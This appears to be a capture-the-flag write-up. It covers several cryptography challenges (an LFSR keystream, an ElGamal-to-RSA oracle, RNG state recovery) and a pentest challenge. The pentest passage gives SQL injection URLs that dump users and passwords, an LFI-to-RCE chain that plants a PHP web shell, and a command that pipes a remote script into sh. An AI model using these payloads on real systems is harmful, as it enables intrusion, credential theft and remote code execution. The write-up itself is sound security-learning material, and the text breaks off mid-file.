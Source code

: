 ### Top Secret

Observing the output of LFSR, it's easy to see that if we transform the output to an element in $GF(2^{128})$, then the output keystream $ks_1, ks_2, \dots$ satisfies
$$ks_i = ks_{i-1} \cdot x^{k}$$
where $k$ is the secret key. The challenge provides $ks_0$, and $ks_1$ is leaked by the observation that a png file has a fixed 16-byte header. Therefore, we can get $ks_2$ by calculating
$$\frac{ks_1^2}{ks_0}$$
without knowing the value of $k$. Similarly, we can recover all output blocks of the keystream, and recover the plaintext.

### Cipher Switching Service

The key observation is that given an Elgamal encryption $(c_1, c_2)$ of a message $m$, we can forge an Elgamal encryption of message $2m$ – it is just simply $(c_1, 2c_2)$. When we switching these two ciphertext back to RSA encryption we get
$$(c_1, c_2) \to x, \quad (c_1, 2c_2) \to x'$$
One might assumes that $x' = 2^ex$. However, there's an exception when $2m \ge p$, where we get $x' = (2m-p)^e \pmod N$ instead of $(2m)^e$. Therefore, we get a MSB-ish oracle, and we can do a binary search to decrypt a Elgamal encrypted message. Out attack goes as follow:
* Using RSA-to-Elgamal, get an Elgamal encryption of the flag.
* Perform the binary search and recover the flag.

### Rng++

Observations:

* All characters of the random string is digits, meaning that it all starts with a '3' in hex.
* $M$ is a power of 2.

We can recover the lowest bytes by setting $M = 256$ and bruteforce all possible states to find the one that matches (the fact that the random string is all digits). and then recover the second lowest bytes and so on. At the end, we recover the states of the RNG, and can predict its output, allowing us to recover the flag.

## pentest

### Nentau Police Office - 1

1. SQL Injection
    - dump schema: `/news.php?id=-1%20union%20select%201,2,group_concat(schema_name),4,5%20from%20information_schema.schemata`
    - dump user: `/news.php?id=-1%20union%20select%201,2,group_concat(concat(uid,0x20,username,0x20,password)),4,5%20from%20users`
        - `1 tsjadmin RRwZriRCF3CoYtbjkF3u`
2. LFI
    - `/adminmanager.php?op=././././users`
    - using [pearcmd.php](https://github.com/w181496/Web-CTF-Cheatsheet#pear) to RCE
        - `/adminmanager.php?+config-create+/&op=../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=system($_GET[1]);?>+/var/tmp/a.php`
        - `/adminmanager.php?op=../../../../../../../../var/tmp/a&1=curl%20kaibro.tw|sh`
3. flag permission
    - `flag1.txt` owner is `tsjadmin`
    ```
    www-data@nentaupoliceoffice:/$ cat flag1.txt
    cat flag1.txt
    cat: flag1.txt: Permission denied
    ```
4. find `tsjadmin`'s password
    - `cat /var/www/html/config.php`
    ```php
    ...
    $host = "database";
    $dbname = "announcement";